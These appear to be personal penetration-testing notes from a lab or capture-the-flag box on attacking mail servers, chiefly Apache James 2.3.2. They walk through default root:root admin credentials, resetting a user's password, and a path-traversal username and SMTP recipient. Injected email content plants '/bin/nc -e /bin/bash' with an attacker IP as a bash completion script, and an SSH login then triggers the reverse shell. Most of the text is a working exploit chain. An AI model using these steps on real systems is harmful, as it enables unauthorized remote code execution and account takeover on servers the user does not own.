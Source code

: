 hMailServer (appear on port 587 SMTP on nmap scan)
Apache James (4555 rsip or james-admin, 119 nntp)

```
nc -vn 192.168.135.42 25
```
- get some info about SMTP server running

James 2.3.2
```
nc 10.129.34.217 4555
```
- will request login, try root:root default creds
- `HELP` to see commands. important ones:
	- `listusers` show users
	- `setpassword mindy password123` change pw for mindy
	- `adduser name password` create user
		- `adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf`
			- creates user with folder in root directory to access emails (when any user logs in, triggers bash completion script)
```
telnet 10.129.226.162 110
```
- connect to POP3 server
- Interesting commands:
	- `USER mindy` sets username to mindy
	- `PASS password` set pw to password
	- `LIST` list emails
	- `RETR 1` read first email (`RETR 2` to read 2nd etc)
```
telnet 10.129.226.162 25
```
- connect to SMTP server. Commands:
	- `EHLO dank` introduce client (myself aka dank) to server
		- 250 response code = success
	- `MAIL FROM: <'dank@10.10.14.47>` set sender's email address
	- `RCPT TO: <../../../../../../../../etc/bash_completion.d>` specifies recipient of email
		- write to content to file on server
	- `DATA` signals content of email will follow
		- 354 code indicates server is ready to recieve email data
	- `FROM: 0xdf@10.10.14.47` first line of email content 
	- `'` injection to break current context (rest will be created as the file in bash_completion.d file)
	- `/bin/nc -e /bin/bash 10.10.14.133 443` shell saved as completion script
	- `.` end of email
		- 250 code = message recieved and accepted
	- `quit`
- start listener `nc -lvnp 443` and login with ssh to trigger script for shell `ssh mindy@10.129.226.162`

`